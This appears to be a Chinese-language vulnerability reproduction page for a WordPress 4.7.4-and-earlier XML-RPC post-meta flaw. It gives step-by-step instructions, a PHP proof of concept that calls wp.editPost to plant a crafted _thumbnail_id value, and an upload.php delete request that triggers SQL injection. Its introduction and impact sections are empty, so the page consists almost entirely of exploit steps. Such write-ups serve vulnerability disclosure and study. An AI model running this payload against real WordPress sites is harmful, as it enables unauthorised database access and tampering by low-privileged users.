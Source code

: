 # Wordpress <= 4.7.4 XML-RPC API POST META 未校验漏洞

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

中文版

以作者身份登录到您的wordpress

上传图片

记住图像/媒体的ID

创建帖子并将图像设置为特色图像（这将创建_thumbnail_id帖子元）

记住帖子ID

我们可以通过修改_thumbnail_id的值来编辑的值（6是帖子ID，5是图片/帖子ID）

poc


```php
$usr = 'author';
$pwd = 'author';
$xmlrpc = 'http://local.target/xmlrpc.php';
$client = new IXR_Client($xmlrpc);
$content = array("ID" => 6, 'meta_input' => array("_thumbnail_id"=>"xxx"));
$res = $client->query('wp.editPost',0, $usr, $pwd, 6/*post_id*/, $content);
```

通过这段代码，我们在数据库中添加以下负载


```bash
5 %1$%s hello
```

执行SQL负载

使用作者帐户登录管理面板，转到媒体，例如


```bash
http://url/wp-admin/upload.php
```

通过_wpnonce参数可以直接进行sql注入


```bash
http://url/wp-admin/upload.php?_wpnonce=daab7cfabf&action=delete&media%5B%5D=5%20%251%24%25s%20hello
```

其中5 %1$%s hello的encode编码是5%20%251%24%25s%20hello这个请求将导致数据库执行以下查询（会有错误）


```sql
SELECT post_id FROM wp_postmeta WHERE meta_key = '_thumbnail_id' AND meta_value = '5 _thumbnail_id' hello'
```

这证明了Wordpress中的sql漏洞，正如5%1$%s之后的前一个post值中提到的，hello就是我们的payload


